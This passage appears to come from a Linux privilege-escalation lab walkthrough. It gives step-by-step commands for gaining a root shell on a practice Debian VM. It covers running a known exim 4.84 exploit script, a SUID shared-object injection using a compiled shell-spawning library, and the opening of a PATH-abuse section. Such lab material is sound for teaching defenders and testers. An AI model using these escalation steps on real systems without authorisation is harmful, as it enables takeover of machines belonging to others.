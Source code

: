 Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

Run the exploit script to gain a root shell:

```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```

## 12. SUID / SGID Executables - Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

```bash
/usr/local/bin/suid-so
```

Run strace on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:

```bash
mkdir /home/user/.config
```

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

```bash
/usr/local/bin/suid-so
```

## 13. SUID / SGID Executables - LD_PRELOAD

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

```bash
/usr/local/bin/suid-env
```
